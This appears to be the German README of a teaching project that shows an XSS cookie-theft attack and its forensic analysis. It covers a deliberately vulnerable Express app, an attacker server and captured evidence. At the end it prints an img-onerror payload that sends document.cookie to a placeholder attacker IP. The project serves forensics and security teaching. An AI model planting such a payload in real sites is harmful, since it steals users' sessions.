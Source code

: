 # Forensische Analyse von XSS-Angriffen

Dieses Projekt demonstriert einen Cross-Site-Scripting (XSS)-Angriff und dessen forensische Analyse. Es besteht aus einer verwundbaren Webanwendung (xss-defender), einem Angreiferserver (xss-attacker) sowie gesammelten Beweismitteln (beweise).

## Projektstruktur

- **xss-defender/**: Verwundbare Node.js/Express-Webanwendung mit Login, Dashboard und Gästebuch-Funktion.
- **xss-attacker/**: Node.js/Express-Server, der gestohlene Cookies entgegennimmt und automatisiert Angriffe durchführt.
- **beweise/**: Enthält Mitschnitte (z.B. Wireshark `.pcapng`), Server-Logs und HAR-Dateien zur Analyse des Angriffs.

## Ablauf des XSS-Angriffs

1. **Vorbereitung**: Die Webanwendung erlaubt das Posten von Inhalten ohne ausreichendes Escaping.
2. **Angriff**: Ein Angreifer postet einen Beitrag mit einem XSS-Payload, z.B. einem `<img>`-Tag mit `onerror`, der das Session-Cookie an den Angreiferserver sendet.
3. **Diebstahl der Session**: Das Cookie wird vom Browser des Opfers an den Angreiferserver übertragen.
4. **Sessionübernahme**: Der Angreiferserver nutzt das gestohlene Cookie, um im Namen des Opfers Aktionen durchzuführen (z.B. einen weiteren Post).
5. **Forensik**: Die Beweismittel (Netzwerk-Mitschnitt, Server-Logs) zeigen den Ablauf des Angriffs und ermöglichen die Nachverfolgung.

## Forensische Analyse

- **Wireshark-Mitschnitt (`beweise/angriff_wireshark.pcapng`)**: Enthält HTTP-Requests, darunter den Diebstahl und die missbräuchliche Nutzung des Session-Cookies.
- **Server-Logs (`beweise/defender_server_logs.txt`, `beweise/attacker_server_logs.txt`)**: Dokumentieren Logins, Posts und verdächtige Aktivitäten.
- **HAR-Datei (`beweise/devtools.har`)**: Browser-Netzwerkaktivität zur weiteren Analyse.

## Hinweise

- Die Anwendung ist absichtlich verwundbar, um XSS und dessen Folgen zu demonstrieren.
- Die Beweismittel können mit Tools wie Wireshark oder Browser-Devtools analysiert werden.
- Ziel ist es, typische Spuren eines XSS-Angriffs zu erkennen und zu dokumentieren.

## Starten der Komponenten

1. **xss-defender**  
   ```
   cd xss-defender
   npm install
   node app.js
   ```
2. **xss-attacker**  
   ```
   cd xss-attacker
   npm install
   node attacker.mjs
   ```

## Beispiel für einen XSS-Payload

```html
<img src="x" onerror="fetch('http://[ANGREIFER-IP]:8080/stolen_cookie?cookie='+document.cookie)">
```

---

**Achtung:** Dieses Projekt dient ausschließlich zu Lehr- und Analysezwecken!